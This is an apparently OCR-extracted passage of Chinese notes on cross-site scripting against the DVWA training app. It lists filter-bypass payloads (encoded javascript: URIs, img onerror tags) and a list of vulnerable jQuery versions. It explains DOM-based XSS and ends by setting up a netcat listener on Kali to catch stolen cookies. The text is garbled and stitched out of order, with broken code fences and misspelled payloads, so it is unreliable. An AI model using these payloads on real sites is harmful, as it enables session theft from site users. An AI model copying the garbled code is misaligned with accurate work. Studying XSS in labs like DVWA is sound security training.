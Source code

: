 ```
大小写混淆绕过
直接修改前端代码改 name 参数为

```
 <script>alert(1)</script> ,
 ```
 成功弹框

javas&Tab;crip:\u0061lert&#x28;1&#x29
<a hret="javascript:\u0061lert&#x28;1&#x29">
<img src="javas&Tab;crip:\u0061lert(1)">
<img src="javas&Tab;crip:\u0061lert&#x28;1&#x29;">

利用top

```html
<a top[al+ert](1);>
```



high的代码很有效的过滤了所有  script的标签，但是，他旺旺没想到，魔高一尺道高一丈，你大爷永远是你大爷：

可以看到，这里使用正则表达式过滤了 <script> 标签，但是却忽略了 img、iframe 等其它危险的标签，因此 name 参数依旧存在存储型 XSS。
漏洞利用
直接修改前端代码改 name 参数为 

```

 jquery-1.7.1~1.8.3
    jquery-1.6.min.js，jquery-1.6.1.min.js，jquery-1.6.2.min.js
    jquery-1.5所有版本
    jquery-1.4所有版本
    jquery-1.3所有版本
    jquery-1.2所有版本

<img src=1 onerror=alert(网安2020)> ,

```

成功弹框

http://localhost/#<img src=/ οnerrοr=alert(1)>


3.DOM型xss漏洞
DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。


当页面到达浏览器时浏览器会为页面创建一个顶级的Document object文档对象，接着生成各个子文档对象，每个页面元素对应一个文档对象，每个文档对象包含属性、方法和事件。可以通过JS脚本对文档对象进行编辑从而修改页面的元素。也就是说，客户端的脚本程序可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。基于这个特性，就可以利用JS脚本来实现XSS漏洞的利用。
利用创建元素createElement()：
以DVWA反射型XSS为例，先在Kali监听1234端口：
nc -nvlp 1234

意在截取1234端口的cookie值。
